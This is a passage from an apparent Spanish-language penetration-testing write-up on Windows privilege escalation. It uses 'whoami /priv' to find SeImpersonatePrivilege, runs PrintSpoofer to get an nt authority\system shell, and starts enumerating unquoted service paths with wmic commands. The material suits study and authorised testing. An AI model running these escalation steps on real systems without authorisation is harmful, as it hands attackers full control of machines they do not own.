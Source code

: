 ```python
whoami /priv
```

![Se Impersonate privilege](/assets/images/report/seimpersonateprivilege.png)

Podemos ver que `SeImpersonatePrivilege` esta activado lo cual quiere decir que para convertirnos en `nt authority\system` sera muy fácil ya que para aprovecharnos de este privilegio existen varias herramientas y métodos.

#### Print Spooler

En este caso yo utilizare [Print Spooler](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) ya que su uso es muy fácil como ejecutarlo y pasarle como parámetro a `-c` que queremos que se ejecute.

```python
PrintSpoofer64.exe -i -c cmd.exe
```

Tras ejecutar el comando anterior vemos que efectivamente nos hemos convertido en `nt authority\system` teniendo todo el control del sistema ahora.

![Privilege scalation Se Impersonate privilege](/assets/images/report/privilegescalate.png)

#### Unquoted Service Path

Si seguimos enumerando este máquina veremos hay mas métodos de escalar privilegios.

Con los siguientes comandos podemos buscar servicios que cuenten con espacios pero sin estar entre comillas en su ruta ejecutable.

```python
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\windows\\" | findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
